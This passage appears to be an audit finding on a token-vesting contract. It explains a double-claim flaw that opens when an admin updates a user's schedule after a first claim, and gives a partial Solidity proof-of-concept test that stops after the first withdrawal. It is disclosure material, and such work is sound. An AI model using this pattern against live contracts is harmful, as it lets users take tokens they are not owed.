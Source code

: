 The scenerio is : 

1. User is created a vesting schedule which allows them to claim 1_000 * e18 (`tokensToVestAtStart`) tokens at `scheduleStartTime`
2. The `block.timestamp` reaches `scheduleStartTime` and user claims `tokensToVestAtStart`
3. The admin updates the schedule for the user with different `tokensToVestAtStart` and `scheduleStartTime`
4. The user can now claim again once the `block.timestamp` reaches the new `scheduleStartTime`

The proof of concept uses the same function used by devs to test updating the vesting schedule for a user with added lines of code for withdrawals by user

```solidity
function testDoubleClaimingAfterUpdating() public {
        {
            VestingParams memory params = VestingParams({
                vestingScheduleIndex: 0,
                tokensToVestAtStart: 1_000 * 1e18, //1k tokens
                tokensToVestAfterFirstInterval: 100 * 1e18, //100 tokens
                amountWithdrawn: 0,
                scheduleStartTime: uint32(block.timestamp + 60 * 60 * 24 * 2), // 2 days
                cliffEndTime: uint32(block.timestamp + 60 * 60 * 24 * 365),
                intervalLength: 12,
                maxIntervals: 100,
                growthRateProportion: 0
            });

            setVestingScheduleFromManager(
                sampleUser,
                params.vestingScheduleIndex,
                params.tokensToVestAtStart,
                params.tokensToVestAfterFirstInterval,
                params.amountWithdrawn,
                params.scheduleStartTime,
                params.cliffEndTime,
                params.intervalLength,
                params.maxIntervals,
                params.growthRateProportion
            );

            (
                uint256 _tokensToVestAtStart,
                uint256 _tokensToVestAfterFirstInterval,
                uint256 _intervalLength,
                uint256 _maxIntervals,
                uint256 _tokenAmountWithdrawn,
                uint256 _scheduleStartTime,
                uint256 _cliffEndTime,
                uint256 _growthRateProportion
            ) = VVVVestingInstance.userVestingSchedules(sampleUser, 0);

            assertTrue(_tokensToVestAtStart == params.tokensToVestAtStart);
            assertTrue(_tokensToVestAfterFirstInterval == params.tokensToVestAfterFirstInterval);
            assertTrue(_tokenAmountWithdrawn == 0);
            assertTrue(_scheduleStartTime == params.scheduleStartTime);
            assertTrue(_cliffEndTime == params.cliffEndTime);
            assertTrue(_intervalLength == params.intervalLength);
            assertTrue(_maxIntervals == params.maxIntervals);
            assertTrue(_growthRateProportion == params.growthRateProportion);
        }

        vm.warp(block.timestamp + 2 days);

        vm.prank(sampleUser);
        VVVVestingInstance.withdrawVestedTokens(1_000 * 1e18, address(sampleUser), 0);
```